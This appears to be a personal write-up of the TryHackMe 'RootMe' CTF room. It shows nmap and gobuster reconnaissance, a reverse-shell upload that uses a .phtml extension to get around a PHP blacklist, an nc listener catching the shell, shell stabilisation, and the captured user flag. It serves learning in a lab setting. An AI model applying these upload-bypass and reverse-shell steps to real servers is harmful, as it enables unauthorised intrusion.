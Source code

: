 ### RootMe

export IP: 10.10.43.146


Scan the machine, how many ports are open?

- port 44442 is not included since status is filtered

```
                                                                                                                      
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/RootMe]
└─$ nmap -sC -sV -oN nmap_results.txt 10.10.43.146 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-18 08:27 EDT
Nmap scan report for 10.10.43.146
Host is up (0.66s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE         VERSION
22/tcp    open     ssh             OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp    open     http            Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
44442/tcp filtered coldfusion-auth
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.26 seconds
                                                                                                                      
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/RootMe]

```

What version of Apache is running?
- 2.4.29


What service is running on port 22?
- ssh


What is the hidden directory?
- /panel/

```


┌──(kali㉿kali)-[~/ken/MoonShine/CTF/RootMe]
└─$ gobuster dir -u "http://10.10.43.146:80" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o /home/kali/ken/MoonShine/CTF/RootMe/gobuster_scan.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.43.146:80
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/18 08:31:57 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.43.146/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.43.146/css/]    
/js                   (Status: 301) [Size: 309] [--> http://10.10.43.146/js/]     
/panel                (Status: 301) [Size: 312] [--> http://10.10.43.146/panel/]  
Progress: 5864 / 220561 (2.66%)                                                  ^C
[!] Keyboard interrupt detected, terminating.
                                                                                  
===============================================================
2022/08/18 08:39:06 Finished
===============================================================
                                                                                                                      
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/RootMe]
└─$ 

```


Find a form to upload and get a reverse shell, and find the flag.


![[Pasted image 20220818090736.png]]

- created reverse_shell.phtml, since php is blacklisted and we also cannot bypass client side filter:

```
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/RootMe]
└─$ ls
gobuster_scan.txt  nmap_results.txt  README.md  reverse_shell.jpg  reverse_shell.php  reverse_shell.phtml
                                                                                                                       
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/RootMe]
└─$ 

```

After uploading the payload, go to http://ip:80/uploads/reverse_shell.phtml to obtain a shell on nc listener:

```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234                                  
listening on [any] 1234 ...
connect to [10.4.73.167] from (UNKNOWN) [10.10.43.146] 35740
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 13:07:17 up 45 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data

```

- Once you got a shell, try to stabilize it first:

```

$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@rootme:/$ fg
www-data@rootme:/$ stty raw -echo
stty raw -echo
www-data@rootme:/$ fg
bash: fg: current: no such job
www-data@rootme:/$ export TERM=xterm
www-data@rootme:/$
```

- Then search for the file user.txt below:

```
www-data@rootme:/$ find / -type f -name user.txt
/var/www/user.txt

```

- user.txt is located at /var/www/
- try to cat /var/www/user.txt to get the first flag:

```
www-data@rootme:/$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
www-data@rootme:/$ ^C
                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ 


```